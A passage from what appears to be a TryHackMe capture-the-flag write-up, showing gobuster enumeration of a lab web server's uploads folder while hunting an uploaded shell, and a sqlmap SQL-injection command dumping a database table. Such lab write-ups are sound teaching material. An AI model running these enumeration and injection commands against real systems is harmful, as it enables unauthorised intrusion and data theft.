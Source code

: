 ```
┌──(kali㉿kali)-[~/Wordlists]
└─$ gobuster dir -w directory-list-2.3-medium.txt -t 40 --no-error -u http://[REDACTED].olympus.thm/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://[REDACTED].olympus.thm/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 322] [--> http://[REDACTED].olympus.thm/uploads/]
/static               (Status: 301) [Size: 321] [--> http://[REDACTED].olympus.thm/static/]
/javascript           (Status: 301) [Size: 325] [--> http://[REDACTED].olympus.thm/javascript/]
```

From the [REDACTED] between **zeus** and **prometheus**, the uploaded files are placed in the **uploads** folder but were randomly changed their name. To find out the uploaded shell, I append the `-x` option to search for the extensions **.php** file and hope it will work:

```
┌──(kali㉿kali)-[~/Wordlists]
└─$ gobuster dir -w directory-list-2.3-medium.txt -t 40 --no-error -u http://[REDACTED].olympus.thm/uploads/ -x .php,.js,.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://[REDACTED].olympus.thm/uploads/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
```

Unfortunately that I found nothing. Let’s step back to the result from the previous **sqlmap** dumping data! I notice that inside the database **olympus**, there is a table named **chats** which is might relevant to this application. I decide to use the **sqlmap** again to dump the information from that table:

```
┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ sqlmap -u http://olympus.thm/[REDACTED]/search.php --data="search=a&submit=" -D olympus -T chats --dump --batch
[...]
[03:17:12] [INFO] fetching columns for table 'chats' in database 'olympus'
[03:17:13] [INFO] fetching entries for table 'chats' in database 'olympus'
Database: olympus
Table: chats
[11 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+--------------------------------------+
```